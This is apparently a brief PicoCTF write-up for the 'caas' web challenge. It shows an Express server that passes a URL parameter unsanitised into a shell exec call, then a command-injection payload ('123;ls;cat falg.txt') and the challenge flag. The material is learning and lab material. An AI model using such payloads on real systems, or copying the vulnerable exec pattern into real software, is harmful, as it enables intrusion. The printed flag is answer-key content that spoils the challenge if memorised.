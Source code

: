 ```yaml
---
title: PicoCTF - caas
tags: [PicoCTF, CTF, Web]

---
```


# PicoCTF - caas
###### tags: `PicoCTF` `CTF` `Web`

## Background
[Command Injection](https://lab.feifei.tw/practice/ci/l1.php)

## Source code
```javascript=
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```
## Recon
直覺是command injection

## Exploit - Easy Command Injection
Payload: `/cowsay/123;ls;cat falg.txt`
Flag: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
## Reference
[ CaaS | Web Category | PicoCTF | CTF For beginners ](https://youtu.be/ZP3kLVaMQIE)